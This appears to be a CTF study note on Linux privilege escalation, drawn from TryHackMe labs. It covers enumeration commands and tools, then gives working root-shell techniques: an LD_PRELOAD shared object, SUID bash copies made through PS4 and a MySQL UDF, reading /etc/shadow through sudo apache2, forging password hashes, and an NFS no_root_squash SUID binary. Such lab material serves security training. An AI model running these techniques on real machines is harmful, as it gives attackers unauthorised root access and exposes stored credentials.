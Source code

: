 ```yaml
---
title: Linux Privilege Escalation
time: 2025-01-27 20:01:22
categories: [CTF, Privilege Escalation]
tags: [privilege-escalation, linux, ctf, suid, sudo, ldpreload]
---
```


Privilege Escalation is searching for ways to run commands that require elevated access permissions, Eg. reading /etc/shadow file.

## Information Gathering

Once you have access to a remote machine, here is the list of different information to gather to explore ways to escalate privilege:

1. `hostname` - machine name
1. `uname -a` - Operating System information
1. `/proc/version` - only for linux to get kernel details
1. `/etc/issue` - system information
1. `/etc/os-release` - OS information
1. `ps auxjf` - list of running process
1. `env` - environment variables
1. `sudo -l` - check sudo permission
1. `ls` - Accessible files
1. `id` - user information
1. `/etc/passwd` - other available users
1. `history` - interesting commands ran in previous sessions by user
1. `ifconfig` - network info
1. `ip route` - available network routes
1. `netstat` - display network communications

## Automated Enumeration

Different tools to check available escalation options:

- [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [LES (Linux Exploit Suggester)](https://github.com/mzet-/linux-exploit-suggester)
- [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- [Linux Priv Checker](https://github.com/linted/linuxprivchecker)
- [More list of escalation techniques](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/linux-privilege-escalation/#summary)

---

## Escalation Techniques

### kernel exploits

- Check the kernel version of the system: `uname -a`, `cat /proc/version`, `cat /etc/issue`
- Search for any exploit published for that version on [exploit-db](https://www.exploit-db.com/)
- Here is one script to find kernel exploits: [Linux exploit Suggester](https://github.com/The-Z-Labs/linux-exploit-suggester/blob/master/linux-exploit-suggester.sh)
- Trick the kernel into running our payload in kernel mode
- Exploit
- Eg. [DirtoCoW](https://dirtycow.ninja/)

Note: Kernel exploit can be irreversable to the system, so run cautiously for the exact version only.

---

### Sudo permissions

- Check sudo permissions: `sudo -l`
- Collated list of ways to use different `sudo` permissions for privilege escalation [GTFObins](https://gtfobins.github.io/)
- Search on the above site and see if any of the binaries can be exploited for privilege escalation
- Check if any of the environment variable retained by `env_keep` can be used for escalation. Eg. `LD_PRELOAD` can be used to override functions from shared library
- exploit
- Eg.

```sh
# Abuse shell debugging feature
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2


# Abuse sudo permission on apache
# Shows first line of shadow file in the error
sudo apache2 -f /etc/shadow

```

- Example of abusing environment variable `LD_PRELOAD` or `LD_LIBRARY_PATH`
- This link [Cheat Inject Feature](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/) provides detailed explanation on using above variables to modify the binary behavior.

- Consider this C program

```c
// preload.c

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() { 
  unsetenv("LD_PRELOAD");
  setgid(0); 
  setuid(0); 
  system("/bin/bash"); 
}

```

- Above program can be injected to any binary if we can modify `LD_PRELOAD` or `LD_LIBRARY_PATH` env variable.

```sh
# use LD_PRELOAD:
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
sudo LD_PRELOAD=/tmp/preload.so <program-name-here>

# use LD_LIBRARY_PATH:
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
sudo LD_LIBRARY_PATH=/tmp <program-name-here>
```

---

### SUID binaries

- find SUID binaries: `find / -type f -perm -04000 -ls 2>/dev/null`, `find / -type f -perm -u+s -exec ls -l {} \; 2> /dev/null`
- find SGID binaries: `find / -type f -perm -02000 -ls 2>/dev/null`, `find / -type f -perm -g+s -exec ls -l {} \; 2> /dev/null`
- find both: `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`
- Use below command to create a password hash if we can edit `passwd` or `shadow` file, Eg. using SUID `cp` or `mv` command

```sh
# create unix password hash:
openssl passwd -1 -salt [salt] [password]
openssl passwd newpasswordhere
mkpasswd -m sha-512 newpasswordhere

```

---

### Cron jobs

- Global cron config is stored in `/etc/crontab`
- see if any script from the job is world writable.

---

### PATH variable

- Check if any binary is using a relative path which can be influenced by the PATH variable: `echo $PATH`

---

### File capabilities:

- find capabilities of all the files under root directory: `getcap -r / 2> /dev/null`
- These capabilities enables extra permissions which are not part of `sudo` permission list, but same approach of `sudo` applies here.
- check `man capabilities` for list of capabilities

---

### Different services

#### mysql escalation

- create payload

```sh
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

- exploit

```sh
mysql -u root

# inside mysql shell
use mysql; 
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';

# exploit
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');


```

#### NFS

- NFS (Network File Sharing) configuration is kept in the /etc/exports file.
- If any directory is shared with `no_root_squash` flag, then it can be exploited
- Consider this c code

```c
// nfs.c

#include <stdlib.h>
#include <unistd.h>

int main()
{
  setgid(0);
  setuid (0);
  system("/bin/bash");
  return 0;
}
```

- Generate the executable and copy it to the mounted share

```sh
# Set SUID as root owner
gcc -static nfs.c -o nfs
chmod +s nfs

# Enumerate mountable shares:
showmount -e 10.0.2.12

# Mount the shared directory

# Craete mount point locally
mkdir /tmp/shmount

# Mount '/backups/' directory from the target machine to local system
mount -o rw 10.0.2.12:/backups /tmp/shmount

cp ./nfs /tmp/shmount

```

- Run the `./nfs` on the target machine

---

## References

- [Linux Privilege Escalation - TryHackMe](https://tryhackme.com/room/linprivesc)
- [Common Escalation Techniques - TryHackMe](https://tryhackme.com/room/linuxprivesc)
